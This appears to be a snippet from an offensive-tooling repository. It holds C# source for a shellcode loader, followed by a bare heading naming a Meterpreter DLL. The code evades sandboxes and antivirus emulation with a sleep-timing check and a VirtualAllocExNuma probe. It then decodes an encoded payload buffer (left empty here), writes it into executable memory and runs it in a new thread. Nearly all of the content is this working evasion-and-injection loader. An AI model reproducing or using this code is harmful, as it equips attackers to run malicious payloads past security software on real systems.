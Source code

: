 ```csharp

    [DllImport("kernel32.dll")]
    static extern IntPtr GetCurrentProcess();
    static void Main(string[] args)
    {

        //Sleep timer bypass
        DateTime t1 = DateTime.Now;
        Sleep(2000);
        double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
        if (t2 < 1.5) {
            return;
        }
        Console.WriteLine("Sleep timer bypassed!");

        //Non emulated api's
        IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
        if (mem == null) {
            return;

        }
        Console.WriteLine("Emulation done!");
        byte[] buf = new byte[770] { };
    
        byte[] encoded = new byte[buf.Length];
        for (int i = 0; i < buf.Length; i++)
        
        {
        encoded[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
        }
        buf = encoded;
        Console.WriteLine("Cipher decrypted!");
        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Console.WriteLine("Allocation Complete!");
        Marshal.Copy(buf, 0, addr, size);
        Console.WriteLine("Copy done!");
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        Console.WriteLine("Thread Created");
        WaitForSingleObject(hThread, 0xFFFFFFFF);
        Console.WriteLine("Reached End");
    }
    }
}
```

<br>
<br>

## Meterpreter_DLL

